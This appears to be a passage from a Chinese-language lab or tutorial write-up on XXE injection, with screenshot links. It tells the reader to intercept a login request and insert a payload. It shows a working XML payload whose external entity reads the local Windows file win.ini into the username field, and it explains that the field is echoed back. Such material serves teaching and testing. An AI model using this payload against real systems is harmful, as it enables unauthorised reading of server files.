 在登陆点抓一个包，插入payload

```
<?xml version="1.0"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/win.ini"> 
]> 
<user><username>&goodies;</username>
<password>yang</password></user>
```

![img](XXE.assets/modb_20211021_1a2db8f2-3260-11ec-b086-fa163eb4f6be.png)

注意点，这里必须要把获取的数据写入username标签，具体是代码中，由于获取的username标签后输出产生的XXE。

![img](XXE.assets/modb_20211021_1a86d824-3260-11ec-b086-fa163eb4f6be.png)
